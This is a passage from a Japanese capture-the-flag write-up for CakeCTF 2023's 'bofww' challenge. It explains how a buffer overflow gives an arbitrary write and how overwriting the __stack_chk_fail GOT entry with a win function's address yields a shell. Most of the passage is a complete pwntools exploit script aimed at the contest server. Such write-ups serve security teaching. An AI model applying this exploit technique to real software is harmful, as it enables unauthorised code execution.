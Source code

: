 `name`変数はBoFで書き換えることができるので、これはすなわち任意書き込みができるということになります。(ただし、`strlen`
を用いて書き込む長さを計算しているため、"\x00"が出現するまでの内容しか書き込めないという制限はあります。)

## 攻撃

ARWプリミティブが得られたので`__stack_chk_fail`のGOTを`win`関数のアドレスに書き換えてあげればシェルを得ることができます。

## スクリプト

```py
from pwn import *

context.arch = "amd64"
context.bits = 64
context.terminal = "tmux splitw -h".split()
context.log_level = "DEBUG"

s2sh = lambda pl: b"".join([p8(int(pl[i : i + 2], 16)) for i in range(0, len(pl), 2)])
s2u64 = lambda s: u64(s.ljust(8, b"\x00"))
i2b = lambda x: f"{x}".encode()
ptr_guard = lambda pos, ptr: (pos >> 12) ^ ptr


def create_io() -> tubes.tube.tube:
    if not local:
        io: tubes.tube.tube = remote(remote_addr, int(remote_port))
    elif debug:
        if radare:
            io: tubes.tube.tube = process(elf_name, env={"LD_PRELOAD": libc_name})
            util.proc.wait_for_debugger(util.proc.pidof(io)[0])
        else:
            io: tubes.tube.tube = gdb.debug(
                elf_name, script, env={"LD_PRELOAD": libc_name}
            )
    else:
        io: tubes.tube.tube = process(elf_name, env={"LD_PRELOAD": libc_name})
    return io


def solve():
    global t
    sa = lambda x, y: t.sendafter(x, y)
    sla = lambda x, y: t.sendlineafter(x, y)

    got_canary = 0x404050
    win = 0x004012F6
    sla(b"name?", p64(win) + p64(got_canary) * 40)
    sla(b"you?", b"0")
    t.recv()

    t.interactive()


local = 0
debug = 1
radare = 0

elf_name = "./bofww"
libc_name = ""
remote_addr, remote_port = "bofww.2023.cakectf.com 9002".split()
# remote_addr, remote_port = "172.31.0.2 5000".split()
elf: ELF = ELF(elf_name)
# libc: ELF = ELF(libc_name)
```